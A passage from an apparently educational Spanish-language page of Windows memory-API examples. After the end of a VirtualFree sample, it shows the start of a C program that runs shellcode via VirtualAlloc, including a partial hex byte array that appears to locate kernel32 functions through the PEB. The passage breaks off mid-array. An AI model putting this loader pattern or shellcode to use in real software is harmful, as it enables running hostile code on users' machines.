 ```c
    bSuccess = VirtualFree(
                       lpvBase,       // Base address of block
                       0,             // Bytes of committed pages
                       MEM_RELEASE);  // Decommit the pages

    _tprintf (TEXT("Release %s.\n"), bSuccess ? TEXT("succeeded") : TEXT("failed") );

}
```

### [Example 2](./VirtualAlloc/example2.c)

Ejecutar shellcode usando VirtualAlloc:
```c
/*
 *
 *  Fuente: https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntfreevirtualmemory
 *          https://learn.microsoft.com/es-es/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntallocatevirtualmemory
 *  Compila con: gcc example1.c -o example1.exe 
 *
 */

#include <stdint.h>
#include <stdio.h>
#include <windows.h>
#include <string.h>

void PrintLastErrorInfo() {
    LPVOID lpMsgBuf;
    DWORD dwLastError = GetLastError();

    DWORD dwFlags = FORMAT_MESSAGE_ALLOCATE_BUFFER |
                    FORMAT_MESSAGE_FROM_SYSTEM |
                    FORMAT_MESSAGE_IGNORE_INSERTS;

    DWORD dwLanguageId = MAKELANGID(LANG_NEUTRAL, SUBLANG_DEFAULT);

    DWORD dwResult = FormatMessage(dwFlags, NULL, dwLastError, dwLanguageId,
                                   (LPTSTR)&lpMsgBuf, 0, NULL);

    if (dwResult != 0) {
        printf("Error code: %lu\n", dwLastError);
        printf("Error message: %s\n", (LPCTSTR)lpMsgBuf);
        
        // Libera el búfer de mensajes
        LocalFree(lpMsgBuf);
    } else {
        fprintf(stderr, "Error al obtener información sobre el último error.\n");
    }
}

static uint8_t code[] =   
    "\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49\x89\xd8\x8b"
    "\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x4d\x31\xd2\x44\x8b\x52\x1c\x4d\x01\xc2"
    "\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x31\xe4\x44\x8b\x62\x24\x4d\x01\xc4\xeb\x32\x5b\x59\x48\x31\xc0\x48\x89\xe2\x51\x48\x8b"
    "\x0c\x24\x48\x31\xff\x41\x8b\x3c\x83\x4c\x01\xc7\x48\x89\xd6\xf3\xa6\x74\x05\x48\xff\xc0\xeb\xe6\x59\x66\x41\x8b\x04\x44\x41\x8b\x04"
```